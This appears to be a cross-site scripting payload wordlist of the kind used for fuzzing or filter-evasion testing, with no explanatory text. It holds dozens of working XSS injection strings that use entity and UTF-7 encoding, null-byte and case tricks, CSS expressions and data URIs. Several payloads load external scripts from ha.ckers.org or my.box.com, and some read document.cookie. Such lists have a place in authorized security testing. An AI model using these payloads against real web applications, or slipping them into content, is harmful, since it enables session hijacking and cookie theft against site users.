&lt;A HREF=\"javascript&#058;document&#46;location='http&#58;//www&#46;google&#46;com/'\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//www&#46;gohttp&#58;//www&#46;google&#46;com/ogle&#46;com/\"&gt;XSS&lt;/A&gt;
&lt;
%3C
&lt
&lt;
&LT
&LT;
&#60
&#060
&#0060
&#00060
&#000060
&#0000060
&lt;
&#x3c
&#x03c
&#x003c
&#x0003c
&#x00003c
&#x000003c
&#x3c;
&#x03c;
&#x003c;
&#x0003c;
&#x00003c;
&#x000003c;
&#X3c
&#X03c
&#X003c
&#X0003c
&#X00003c
&#X000003c
&#X3c;
&#X03c;
&#X003c;
&#X0003c;
&#X00003c;
&#X000003c;
&#x3C
&#x03C
&#x003C
&#x0003C
&#x00003C
&#x000003C
&#x3C;
&#x03C;
&#x003C;
&#x0003C;
&#x00003C;
&#x000003C;
&#X3C
&#X03C
&#X003C
&#X0003C
&#X00003C
&#X000003C
&#X3C;
&#X03C;
&#X003C;
&#X0003C;
&#X00003C;
&#X000003C;
\x3c
\x3C
\u003c
\u003C
&lt;iframe src=http&#58;//ha&#46;ckers&#46;org/scriptlet&#46;html&gt;
&lt;IMG SRC=\"javascript&#058;alert('XSS')\"
&lt;SCRIPT SRC=//ha&#46;ckers&#46;org/&#46;js&gt;
&lt;SCRIPT SRC=http&#58;//ha&#46;ckers&#46;org/xss&#46;js?&lt;B&gt;
&lt;&lt;SCRIPT&gt;alert(\"XSS\");//&lt;&lt;/SCRIPT&gt;
&lt;SCRIPT/SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;BODY onload!#$%&()*~+-_&#46;,&#58;;?@&#91;/|\&#93;^`=alert(\"XSS\")&gt;
&lt;SCRIPT/XSS SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;IMG SRC=\"   javascript&#058;alert('XSS');\"&gt;
perl -e 'print \"&lt;SCR\0IPT&gt;alert(\\"XSS\\")&lt;/SCR\0IPT&gt;\";' &gt; out
perl -e 'print \"&lt;IMG SRC=java\0script&#058;alert(\\"XSS\\")&gt;\";' &gt; out
&lt;IMG SRC=\"jav&#x0D;ascript&#058;alert('XSS');\"&gt;
&lt;IMG SRC=\"jav&#x0A;ascript&#058;alert('XSS');\"&gt;
&lt;IMG SRC=\"jav&#x09;ascript&#058;alert('XSS');\"&gt;
&lt;IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29&gt;
&lt;IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041&gt;
&lt;IMG SRC=javascript&#058;alert('XSS')&gt;
&lt;IMG SRC=javascript&#058;alert(String&#46;fromCharCode(88,83,83))&gt;
&lt;IMG \"\"\"&gt;&lt;SCRIPT&gt;alert(\"XSS\")&lt;/SCRIPT&gt;\"&gt;
&lt;IMG SRC=`javascript&#058;alert(\"RSnake says, 'XSS'\")`&gt;
&lt;IMG SRC=javascript&#058;alert(&quot;XSS&quot;)&gt;
&lt;IMG SRC=JaVaScRiPt&#058;alert('XSS')&gt;
&lt;IMG SRC=javascript&#058;alert('XSS')&gt;
&lt;IMG SRC=\"javascript&#058;alert('XSS');\"&gt;
&lt;SCRIPT SRC=http&#58;//ha&#46;ckers&#46;org/xss&#46;js&gt;&lt;/SCRIPT&gt;
'';!--\"&lt;XSS&gt;=&{()}
';alert(String&#46;fromCharCode(88,83,83))//\';alert(String&#46;fromCharCode(88,83,83))//\";alert(String&#46;fromCharCode(88,83,83))//\\";alert(String&#46;fromCharCode(88,83,83))//--&gt;&lt;/SCRIPT&gt;\"&gt;'&gt;&lt;SCRIPT&gt;alert(String&#46;fromCharCode(88,83,83))&lt;/SCRIPT&gt;
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=javascrscriptipt:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=" &#14;  javascript:alert('XSS');">
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
\";alert('XSS');//
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
�script�alert(�XSS�)�/script�
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
<TABLE BACKGROUND="javascript:alert('XSS')">
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
<XSS STYLE="xss:expression(alert('XSS'))">
exp/*<A STYLE='no\xss:noxss("*//*");xss:&#101;x&#x2F;*XSS*//*/*/pression(alert("XSS"))'>
<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
<SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>
<HTML><BODY><?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"><?import namespace="t" implementation="#default#time2"><t:set attributeName="innerHTML" to="XSS&lt;SCRIPT DEFER&gt;alert(&quot;XSS&quot;)&lt;/SCRIPT&gt;"></BODY></HTML>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<form id="test" /><button form="test" formaction="javascript:alert(123)">TESTHTML5FORMACTION
<form><button formaction="javascript:alert(123)">crosssitespt
<frameset onload=alert(123)>
<!--<img src="--><img src=x onerror=alert(123)//">
<style><img src="</style><img src=x onerror=alert(123)//">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<embed src="javascript:alert(1)">
<? foo="><script>alert(1)</script>">
<! foo="><script>alert(1)</script>">
</ foo="><script>alert(1)</script>">
<script>({0:#0=alert/#0#/#0#(123)})</script>
<script>ReferenceError.prototype.__defineGetter__('name', function(){alert(123)}),x</script>
<script>Object.__noSuchMethod__ = Function,[{}][0].constructor._('alert(1)')()</script>
<script src="#">{alert(1)}</script>;1
<script>crypto.generateCRMFRequest('CN=0',0,0,null,'alert(1)',384,null,'rsa-dual-use')</script>
<svg xmlns="#"><script>alert(1)</script></svg>
<svg onload="javascript:alert(123)" xmlns="#"></svg>
<iframe xmlns="#" src="javascript:alert(1)"></iframe>
+ADw-script+AD4-alert(document.location)+ADw-/script+AD4-
%2BADw-script+AD4-alert(document.location)%2BADw-/script%2BAD4-
+ACIAPgA8-script+AD4-alert(document.location)+ADw-/script+AD4APAAi-
%2BACIAPgA8-script%2BAD4-alert%28document.location%29%2BADw-%2Fscript%2BAD4APAAi-
%253cscript%253ealert(document.cookie)%253c/script%253e
'><s'%2b'cript>alert(document.cookie)</script>
'><ScRiPt>alert(document.cookie)</script>
'><<script>alert(document.cookie);//<</script>
foo<script>alert(document.cookie)</script>
<scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%22/%3E%3CBODY%20onload='document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)'%3E
'; alert(document.cookie); var foo='
foo\'; alert(document.cookie);//';
</script><script >alert(document.cookie)</script>
<img src=asdf onerror=alert(document.cookie)>
<BODY ONLOAD=alert('XSS')>
<script>alert(1)</script>
"><script>alert(String.fromCharCode(66, 108, 65, 99, 75, 73, 99, 101))</script>
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>

